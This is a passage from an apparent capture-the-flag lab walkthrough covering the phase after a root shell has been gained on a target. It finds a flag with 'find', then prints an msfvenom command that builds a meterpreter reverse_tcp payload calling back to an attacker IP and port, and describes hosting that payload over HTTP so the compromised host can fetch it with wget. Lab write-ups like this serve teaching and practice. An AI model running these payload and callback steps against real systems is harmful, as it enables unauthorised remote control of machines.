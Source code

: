 Nice, we've got a reverse shell session that is root!

### Getting the first flag

Using the find command saves us time in finding the first flag

```
find / -name flag
```

![](<../../../../.gitbook/assets/image (9) (1) (1).png>)

![3b2b474c06380f696b38c1498f795e054374](<../../../../.gitbook/assets/image (22) (1) (1) (1) (1) (1).png>)

The shell that we have is pretty limited, so it would be in our best interest to gain a meterpreter shell

We'll essentially need to generate a payload with msfvenom, upload the payload to compromised machine and have it execute, thus giving us a meterpreter shell

```bash
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=192.250.81.2 LPORT=9999 -f elf > reverse.elf
```

![](<../../../../.gitbook/assets/image (44) (1) (1).png>)

We'll start an http server on our host and use wget on the compromised host to download the payload and then start a listener with Metasploit

![Used python to host our directory containing the payload](<../../../../.gitbook/assets/image (10) (1).png>)
